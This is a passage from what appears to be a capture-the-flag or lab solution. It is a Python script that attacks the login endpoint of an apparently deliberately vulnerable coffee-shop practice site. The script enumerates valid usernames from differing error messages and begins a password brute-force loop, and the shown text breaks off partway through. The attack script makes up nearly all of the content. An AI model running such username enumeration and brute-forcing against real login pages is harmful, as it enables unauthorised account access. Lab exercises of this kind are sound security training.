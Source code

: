 Python script

### Solution:

```python
#!/bin/python3

import requests
import time
import json

URL = 'https://vuln-coffee-shop.onrender.com/login'
# https://vuln-coffee-shop.onrender.com/login
username_file = "usernames.txt"
password_file = "passwords.txt"

print("[+] Bypassing auth by checking for valid usernames...\n")

def read_file(filename):
    with open(filename, 'r') as file:
        return [line.strip() for line in file.readlines()]

def find_valid_username(usernames):
    print("Checking usernames...\n[", end="", flush=True)
    for user in usernames:
        headers= { "Content-Type": "application/json" }
        data = {
            "username": user,
            "password": "wrongpass"
        }
        # demo request made to the api
        # const res = await fetch("/login", {
    #     method: "POST",
    #     headers: { "Content-Type": "application/json" },
    #     body: JSON.stringify({ username, password })
    #   });

        response = requests.post(URL, json=data, headers=headers)
        print("#", end="", flush=True)

        # Check if error message for invalid username is not present
        validusers =[]
        if "Invalid username" not in response.text:
            # print("]")  # Close progress bar
            print(response.text)
            validusers.append(user)
            print(user)
            # return user

    print("]")  # Close progress bar
    print(validusers)
    return None

def brute_force_password(username, passwords):
    print(f"\n[+] Starting password brute-force for: {username}")
    print("Trying passwords...\n[")

    for password in passwords:
        headers= { "Content-Type": "application/json" }
        data = {
            "username": username,
            "password": password
        }

```